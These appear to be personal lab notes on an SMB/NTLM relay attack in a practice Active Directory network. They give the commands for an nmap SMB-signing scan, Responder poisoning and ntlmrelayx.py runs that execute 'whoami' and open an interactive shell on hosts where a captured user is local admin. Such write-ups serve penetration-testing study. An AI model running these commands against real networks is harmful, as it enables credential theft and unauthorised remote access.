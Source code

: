 
Domain 
```
192.168.17.139
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```
![[Pasted image 20240120125323.png]]
Always try to -Pn in the end cuz something it will not show the host even there are the host or something the ping might be blocked.

We can also swipe the whole network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```
![[Pasted image 20240120125838.png]]

<hr>

Now the attack begins will change the conf file of responder



Will make a target list with the fcastle and pparker id address
```
Fcastle
192.168.17.140

Pparker
192.168.17.142
```


![[Pasted image 20240120130349.png]]
![[Pasted image 20240120130432.png]]

Command to run
```
sudo responder -I eth0 -dwPv 
```
![[Pasted image 20240120130552.png]]

Now we have to setup the NTLM relay

```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -c "whoami"
```


Will trigger the event
```
\\192.168.17.136
```
![[Pasted image 20240120131350.png]]

For a little twist i first try to relay with Peter Parker machine but failed in it but but but 
when i tried with fcastle i was able to get the relay as it is local admin on both the machine


![[Pasted image 20240120131959.png]]

```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```

